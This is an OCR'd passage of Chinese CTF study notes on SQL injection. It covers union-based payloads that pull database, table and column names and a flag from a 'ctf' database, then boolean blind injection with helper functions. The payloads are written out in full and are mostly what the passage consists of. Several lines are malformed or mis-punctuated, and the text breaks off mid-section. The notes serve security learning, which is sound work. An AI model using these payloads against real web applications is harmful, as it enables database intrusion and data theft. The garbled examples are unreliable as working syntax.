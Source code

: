 ### 使用URL id=1’ order by 3#查询列数   
###   
  
- 查库名  
  
- ?id=1‘ union select 1,2,database()#  
  
- 查表名  
  
- ?id=0’ union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='ctf'#  
  
- 查列名  
  
- ?id=0’ union select 1,2,group_concat(column_name) from information_schema.columns where table_name='answer'#  
  
- 查结果  
  
- ?id=0’ union select 1,2,flag from answer#  
  
###   
### 3.php 盲注型SQL  
###   
### 当出现类似true,false回显表示布尔盲注，如下图查询有结果：  
###   
### 查询无结果   
### and 1=1 表示查询有结果   
### 当出现and 1=0为查询无结果   
  
像这种情况，按照如下思路：  
  
在没有效据回显的情况下，可以存在不同的页面内容回显。  
  
通常逐个爆破猜解，效率偏低。  
  
思路：利用回显的不同推测SQL语句执行的结果是True还是False。  
  
Payload: or select * from users where id='1' and (select length(database()))=1#  
  
  
**编写脚本**  
  
  
使用python写，有一些盲注常用函数：  
  
left(a,b)从左侧截取a的前b位：left(database(),1)>'s'  
  
substr(a,b,c)从b位置开始，截取字符串a的c长度  
  
mid(a,b,c)从位置b开始 ，截取字符串a的c位  
  
ascii() 将某个字符转换为 ascii 值：ascii(substr(user),1,1))=101#  
  
  
围绕功能点：  
  
判断注入位点  
  